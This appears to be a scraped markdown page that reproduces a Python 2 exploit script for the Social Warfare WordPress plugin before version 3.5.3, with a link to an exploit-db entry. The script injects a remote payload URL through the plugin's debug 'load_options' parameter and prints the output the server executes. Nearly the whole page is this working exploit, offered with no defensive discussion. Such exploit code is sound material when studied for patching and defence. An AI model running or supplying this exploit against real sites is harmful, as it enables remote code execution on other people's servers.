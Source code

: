 
---

# exploitation
## social warfare plugin < 3.5.3 exploit

- [Details](https://www.exploit-db.com/exploits/46794)
- Author: hash3liZer

```python
import sys
import requests
import re
import urlparse
import optparse

class EXPLOIT:

	VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s"

	def __init__(self, _t, _p):
		self.target  = _t
		self.payload = _p

	def engage(self):
		uri = urlparse.urljoin( self.target, self.VULNPATH % self.payload )
		r = requests.get( uri )
		if r.status_code == 500:
			print "[*] Received Response From Server!"
			rr  = r.text
			obj = re.search(r"^(.*)<\!DOCTYPE", r.text.replace( "\n", "lnbreak" ))
			if obj:
				resp = obj.groups()[0]
				if resp:
					print "[<] Received: "
					print resp.replace( "lnbreak", "\n" )
				else:
					sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
			else:
				sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
		else:
			sys.exit( "[~] Unexpected Status Received!" )

def main():
	parser = optparse.OptionParser(  )

	parser.add_option( '-t', '--target', dest="target", default="", type="string", help="Target Link" )
	parser.add_option( ''  , '--payload-uri', dest="payload", default="", type="string", help="URI where the file payload.txt is located." )

	(options, args) = parser.parse_args()

	print "[>] Sending Payload to System!"
	exploit = EXPLOIT( options.target, options.payload )
	exploit.engage()

if __name__ == "__main__":
	main()
```
